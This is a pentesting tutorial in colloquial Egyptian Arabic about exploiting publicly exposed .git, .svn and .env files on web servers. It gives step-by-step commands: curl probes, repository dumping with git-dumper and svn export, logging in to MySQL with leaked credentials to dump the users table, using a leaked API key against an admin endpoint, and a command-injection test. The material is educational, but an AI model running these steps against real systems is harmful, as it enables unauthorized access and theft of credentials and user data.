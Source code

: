 تمام، هشرح لك "Publicly Accessible .git, .svn, .env Files" بعمق شديد، مع تركيز على الجانب العملي، الأوامر، والأكواد. هخلّص كل جزء بالعامية المصرية زي ما تكون بتسمع من صاحبك، وفي الآخر هقدم خطوات عملية للاستغلال في سياق Pentesting.

---

### **1. إيه هي Publicly Accessible .git, .svn, .env Files؟**

#### **الشرح العميق:**
الملفات دي هي ملفات بتستخدم في تطوير البرامج أو إدارة المواقع، ولما تكون "Publicly Accessible" يعني إنها مكشوفة على الإنترنت وأي حد يقدر يوصلها بسهولة من المتصفح أو أدوات. ده بيحصل لما المبرمج أو المسؤول يسيبها في مكان عام (زي مجلد الويب الرئيسي) من غير ما يحميها. كل ملف ليه دوره:

- **.git:** مجلد بيحتوي على تاريخ كود الموقع (Git Repository) زي التعديلات والملفات القديمة. لو مكشوف، يقدر المهاجم ينزل الكود كله.
- **.svn:** مجلد بتاع نظام Subversion (SVN) لإدارة الكود. لو متاح، بيكشف الملفات والتاريخ بتاع المشروع.
- **.env:** ملف بيحتوي على متغيرات البيئة زي كلمات سر قاعدة البيانات، مفاتيح API، أو أسرار تانية. لو مكشوف، بيدي المهاجم كل المفاتيح.

#### **الأدوات والأوامر العملية:**
1. **فحص .git:**
   - جرب في المتصفح: `http://target.com/.git/`.
   - لو ظهر "403" أو "Index of"، يبقى موجود:
     - استخدم أداة زي `git-dumper`:
       - `git-dumper http://target.com/.git/ /local/path`.
       - هينزل الـ Repository كله.

2. **فحص .svn:**
   - جرب: `http://target.com/.svn/entries`.
   - لو ظهر محتوى، استخدم `svn export`:
     - `svn export http://target.com/.svn/ /local/path`.

3. **فحص .env:**
   - جرب: `http://target.com/.env`.
   - لو ظهر، اقراه:
     - `curl http://target.com/.env` -> لو لقيت `DB_PASSWORD=secret123`، يبقى لقيت كنز.

#### **خلاصة بالعامية المصرية:**
"يعني الملفات دي زي دفتر يومياتك اللي فيه كل أسرارك، وسايبه في الشارع! .git زي أرشيف شغلك، .svn زي السجل بتاعك، و.env زي كلمة سر خزنة فلوسك."

---

### **2. ليه المشكلة دي خطيرة؟**

#### **الشرح العميق:**
لما الملفات دي تكون مكشوفة، بتفتح الباب للمهاجم يعمل حاجات خطيرة:
- **من .git:** يقدر ينزل كود الموقع كله، يلاقي ثغرات، أو يعرف إزاي السيستم شغال.
- **من .svn:** نفس الفكرة، يشوف الملفات القديمة أو التعديلات ويستغل أي ضعف.
- **من .env:** ياخد كلمات سر قاعدة البيانات، مفاتيح API، أو أي حاجة حساسة، ويستخدمها عشان يدخل أو يصعد صلاحياته.

في النهاية، الملفات دي بتكون زي خريطة كنز للمهاجم، بتديله كل المعلومات اللي يحتاجها عشان يخترق النظام.

#### **الأدوات والأوامر العملية:**
1. **استغلال .git:**
   - بعد ما تنزل الـ Repository:
     - `cd /local/path && git log` -> تشوف التعديلات.
     - ابحث عن ملفات حساسة زي `config.php` في الـ Commits:
       - `git show <commit_id>`.

2. **استغلال .svn:**
   - لو نزلت الملفات:
     - `cat /local/path/.svn/entries` -> ابحث عن بيانات زي كلمات سر.
   - أو: `svn checkout http://target.com/.svn/` -> تجيب الكود.

3. **استغلال .env:**
   - لو لقيت: `DB_USERNAME=admin DB_PASSWORD=secret123`:
     - `mysql -u admin -psecret123 -h target.com`.
     - `SHOW DATABASES;` -> `USE db_name;` -> `SELECT * FROM users;`.

#### **خلاصة بالعامية المصرية:**
"الملفات دي لما تبقى مكشوفة، زي ما تكون سايب كل أسرارك على القهوة! المهاجم يلاقيها، ياخد الكود، يعرف كل حاجة، ويخش يلعب على كيفه في البيت بتاعك."

---

### **3. إزاي نستغلها في الـ Pentesting؟**
- **الهدف:** تستخدم الملفات المكشوفة دي عشان تجمع معلومات أو تاخد وصول أعلى (تصعيد صلاحيات).
- **مثال واقعي:** لو لقيت .env فيه كلمة سر قاعدة بيانات، تدخل عليها وتسرق بيانات المستخدمين.

#### **خلاصة بالعامية المصرية:**
"لما تلاقي الحاجات دي مفتوحة، زي ما تكون لقيت كنز في الشارع! بتاخده، تفتح بيه الأبواب، وتبقى الكبير بتاع الموقع."

---

### **خطوات عملية للاستغلال في Pentesting**

#### **الخطوة 1: فحص الهدف**
- شغل Nmap:
  - `nmap -sV 192.168.1.10`.
- افترض النتيجة:
  - Port 80: Apache 2.4.29.

#### **الخطوة 2: البحث عن الملفات المكشوفة**
- جرب في المتصفح أو بـ curl:
  - `curl http://192.168.1.10/.git/HEAD` -> لو رجع `ref: refs/heads/master`، يبقى موجود.
  - `curl http://192.168.1.10/.svn/entries` -> لو ظهر، يبقى SVN مكشوف.
  - `curl http://192.168.1.10/.env` -> لو ظهر متغيرات، اقراه.

#### **الخطوة 3: استغلال .git**
- لو لقيت .git مكشوف:
  - `git-dumper http://192.168.1.10/.git/ /tmp/git_dump`.
  - `cd /tmp/git_dump && git log` -> ابحث عن ملفات زي `config.php`.
  - `git show <commit_id>` -> لو لقيت `$db_pass = "secret123";`.

#### **الخطوة 4: استغلال .svn**
- لو لقيت .svn:
  - `svn export http://192.168.1.10/.svn/ /tmp/svn_dump`.
  - `cat /tmp/svn_dump/.svn/entries` -> ابحث عن بيانات حساسة.

#### **الخطوة 5: استغلال .env**
- لو لقيت .env:
  - `curl http://192.168.1.10/.env` -> افترض رجع:
    - `DB_USERNAME=admin DB_PASSWORD=pass123`.
  - استخدمها:
    - `mysql -u admin -ppass123 -h 192.168.1.10`.
    - `SELECT * FROM users;` -> تسريب بيانات.

#### **الخطوة 6: تصعيد الصلاحيات**
- لو لقيت API Key في .env (زي `API_KEY=xyz123`):
  - جرب تستخدمه في طلبات API:
    - `curl -H "Authorization: Bearer xyz123" http://192.168.1.10/api/admin`.
- لو لقيت كود في .git ينفع لـ Command Injection:
  - ارفع shell بناءً على الثغرة:
    - `http://192.168.1.10/vuln.php?cmd=id`.

#### **الخطوة 7: توثيق**
- سجل كل الملفات المكشوفة والبيانات اللي لقيتها.
- قدم تقرير يوضح إزاي الملفات دي ممكن تدمر النظام.

#### **خلاصة بالعامية المصرية:**
"الخطوات دي زي ما تكون لقيت كشكول أسرار الموقع في الشارع، فتحته، خدت كل حاجة، وطلعت الكبير بتاع الحتة! الملفات دي لما تبقى مكشوفة، تبقى طريقك للنصر."

---

### **الخلاصة النهائية:**
Publicly Accessible .git, .svn, .env Files هي ثغرات كبيرة لأنها بتكشف كود الموقع، تاريخه، وأسراره زي كلمات السر. في الـ Pentesting، دور عليها بـ curl أو أدوات زي git-dumper، استغلها عشان تسرق بيانات أو تاخد shell، ووري العميل إن نظامه زي كتاب مفتوح! بالطريقة دي، تقدر تبقى البطل بتاع اللعبة بسهولة!